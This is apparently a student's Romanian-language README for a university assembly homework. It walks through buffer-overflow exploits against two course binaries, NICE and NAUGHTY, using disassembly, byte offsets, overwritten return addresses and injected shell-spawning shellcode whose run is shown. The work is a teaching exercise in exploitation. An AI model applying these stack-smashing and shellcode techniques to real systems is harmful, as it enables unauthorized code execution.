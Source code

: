 # Atacuri de tip Buffer Overflow

## Enunt si explicatii

Fiind data doua fisiere binare, se doreste sa se gaseasca vulerabilitatile acestora
si sa se exploateze in diverse forme. Mai multe detalii despre enunt se pot gasi [aici](https://ocw.cs.pub.ro/courses/iocla/teme/tema-4).
Aceste atacuri au fost gandite folosind masina virtuala de la acest [link](https://ocw.cs.pub.ro/courses/iocla/utile), iar tool-urile folosite pentru descoperirea vulnerabilitatilor au fost urmatoarele:

* *gdb*
* *objdump*
* *ghidra*

## Fisierul NICE

### Analiza binarului

Functia vulnerabila se afla la adresa 0x08049329. In aceasta functie, se aloca
spatiu pentru 0x2f9 bytes. Apoi este salvata pe stiva, mai exact la pozitia
ebp-0x1de, adresa unei functii (0x80492c8). Urmeaza apoi o citere de la tasta-
tura. Daca se citesc maxim 0x2f9-0x1de=283 bytes, nu va fi nicio problema. In
schimb daca se citesc mai multi, se va suprascrie adresa functiei salvata pe
stiva si programul va functiona diferit, intruact ulterior, functia de la acea
adresa va fi apelata. Asa cum se poate observa din codul de mai jos, se citesc
0x2f9 bytes, deci adresa acelei functii va putea fi suprascrisa.


 8049329: &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; push   ebp\
 804932a: &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; mov    ebp,esp\
 804932c: &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; sub    esp,0x2f9\
 8049332: &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; mov    DWORD PTR [ebp-0x1de],0x80492c8\
 8049339: &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; \
 804933c: &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; mov    edx,esp\
 804933e: &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; push   0x2f9\
 8049343: &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; push   edx\
 8049344: &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; push   0x0\
 8049346: &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; call   8049030 \<read@plt>\
 804934b: &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; mov    eax,DWORD PTR \[ebp-0x1de]\
 8049351: &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; call   eax\
 8049353: &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; leave  \
 8049354: &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; ret    


### Spargerea binarului

Este suficient sa suprascriu adresa acelei functii cu o alta adresa care va
genera mesajul dorit. Aceasta adresa este 0x08049291 deoarece:

- la eticheta print_flag se afla 7 functii (se observa 7 cadre de stiva);
- main-ul contine 4 functii care doar citesc un numar de bytes si inca una
vulnerabila (cea de a patra);
- a doua functie din print_flag este cea la care "se sare", daca nu este
exploatata vulnerabilitatea, programul afisand "All done...";
- ramane astfel o singura functie, avand adresa 8049291, in corpul careia se
poate observa un apel al functiei "puts", care probabil printeaza mesajul
NICE_FLAG{...}.


 8049291: &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; push   ebp\
 8049292: &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; mov    ebp,esp\
 8049294: &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; push   0x4\
 8049296: &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; push   0x804c066\
 804929b: &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; push   0x0\
 804929d: &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; push   0x0\
 804929f: &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; push   0x0\
 80492a1: &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; push   0x0\
 80492a3: &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; call   8049070 \<ptrace@plt>\
 80492a8: &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; add    esp,0x10\
 80492ab: &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; cmp    eax,0xffffffff\
 80492ae: &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; jne    80492b7 <print_flag+0x26>\
 80492b0: &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; push   0x1\
 80492b2: &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; call   8049050 \<exit@plt>\
 80492b7: &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; call   8049255 \<\_\_x86.get_pc_thunk.bx+0x185>\
 80492bc: &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; push   0x804c028\
 80492c1: &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; call   8049040 \<puts@plt>\
 80492c6: &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; leave  \
 80492c7: &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; ret    


Astfel, pentru a sparge binarul, am citit de la tastatura:

- 98 bytes pentru prima functie, intrucat functia executa exact aceasta
operatie;
- 297 bytes pentru a doua, din acelasi motiv;
- 229 bytes pentru a treia, din acelasi motiv;
- 283 bytes pentru a patra la care am adaugat noua adresa, 0x08049291,
scrisa in little endian.



## Fisierul NAUGHTY

### Spargerea binarului

Vulnerabilitatea in acest binar este o functie care citeste pe stiva mai mult
decat se alocase inainte, putand astfel modifica adresa de retur a functiei
apelante. Concret, a patra functie apelata din main, ce are adresa  0x08049362,
aloca 0x1f2 bytes si citeste 0x34d bytes.


 8049362: &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; push   ebp\
 8049363: &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; mov    ebp,esp\
 8049365: &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; sub    esp,0x1f2\
 804936b: &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; mov    edx,esp\
 804936d: &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; push   0x34b\
 8049372: &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; push   edx\
 8049373: &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; push   0x0\
 8049375: &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; call   8049030 \<read@plt>\
 804937a: &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; cmp    DWORD PTR \[ebp-0x8b],0xbb4488\
 8049381: &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; \
 8049384: &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; je     804938d <print_flag+0xfc>\
 8049386: &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; push   0x1\
 8049388: &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; call   8049050 \<exit@plt>\
 804938d: &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; leave  \
 804938e: &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; ret


Pentru a putea sparge binarul, trebuie ca primele 3 functii apelate din main
sa nu treaca de if-ul corespunzator verificarii unui element citit cu o valoare
data in program. Astfel, prima functie din main, cea de la adresa 0x080492de:

- aloca 0x10d bytes si citeste de la ebp-0x10d in sus, 0xcf bytes;
- compara numarul de la ebp-0xb9 cu valoarea 0x3113cc71, iar daca sunt egale se
continua executia programului.


 80492de: &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; push   ebp\
 80492df: &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; mov    ebp,esp\
 80492e1: &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; sub    esp,0x10d\
 80492e7: &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; mov    edx,esp\
 80492e9: &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; push   0xcf\
 80492ee: &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; push   edx\
 80492ef: &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; push   0x0\
 80492f1: &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; call   8049030 \<read@plt>\
 80492f6: &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; cmp    DWORD PTR \[ebp-0xb9],0x3113cc71\
 80492fd: &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; \
 8049300: &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; je     8049309 <print_flag+0x78>\
 8049302: &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; push   0x1\
 8049304: &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; call   8049050 \<exit@plt>\
 8049309: &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; leave  \
 804930a: &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; ret


Deci trebuie avut grija cand citesc de la tastatura, sa introduc 0x10d-0xb9=84
bytes random, apoi numarul 0x3113cc71, in little endian si apoi inca 0xcf-84-4=119
bytes random pentru a continua executia programului.

Pentru urmatoarele doua functii se procedeaza identic.

Pentru a patra functie, unde se citeste mai mult decat se aloca, se citeste prac-
tic intreg numarul de bytes alocat si anume 0x1f2 bytes, avand grija ca mai sus
sa pun numarul corect pe pozitia indicata, iar apoi se citesc inca 4 bytes random
pentru a suprascrie vechiul ebp salvat pe stiva. In final se citeste de la tasta-
tura noua adresa a functiei la care "va sari" executia programului. Practic se
pune adresa 0x08049291, scrisa desigur in little endian, explicatia fiind simi-
lara cu cea din binarul NICE.

In acest fel, functia la care se trece va afisa mesajul "NAUGHTY_FLAG{...}".



### Shellcode

Folosind din nou binarul NAUGHTY, exploatam vulnerabilitatea prezentata anterior
din a patra functie. Ideea este ca in loc sa citim o gramada de caractere
garbage, la un moment dat sa citim codul unei functii care deschide un shell.

Asadar, am dat ca input pentru functia respectiva:
- 100 caractere garbage;
- un string in hexa de 55 bytes care reprezinta codul unei functii ce deschide
un shell (luat de la urmatorul [link](http://shell-storm.org/shellcode/files/shellcode-811.php))
- inca 204 caractere garbage;
- numarul "\x88\x44\xbb\x00", pentru a trece de if-ul care compara valoarea de
la pozitia la care am ajuns cu acest numar;
- inca 139 de caractere garbage astfel incat sa suprasciu tot pana la vechiul
ebp salvat, urmand sa suprascriu si adresa de return;
- "\x7a\xd0\xff\xff", noua adresa de return, care reprezinta de fapt adresa la
care este stocat shellcode-ul citit anterior de la tastatura.

Aceasta noua adresa de return se gaseste cu ajutorul gdb-ului, astfel ca aflu
la ce adresa pointeaza ebp-ul si adun 100, pentru ca am, inainte de citirea
shellcode-ului, am citit 100 bytes garbage. Astfel, obtin adresa de pe stiva la
care este salvat shellcode-ul.

#### Exemplu de rulare

student@IOCLA:\~/tema4$ ./naughty < naughty_shellcode \
$ ls\
README	naughty  naughty_payload  naughty_shellcode  nice  nice_payload  tema4.zip\
$ pwd\
/home/student/tema4\
$ exit\
student@IOCLA:\~/tema4$ 


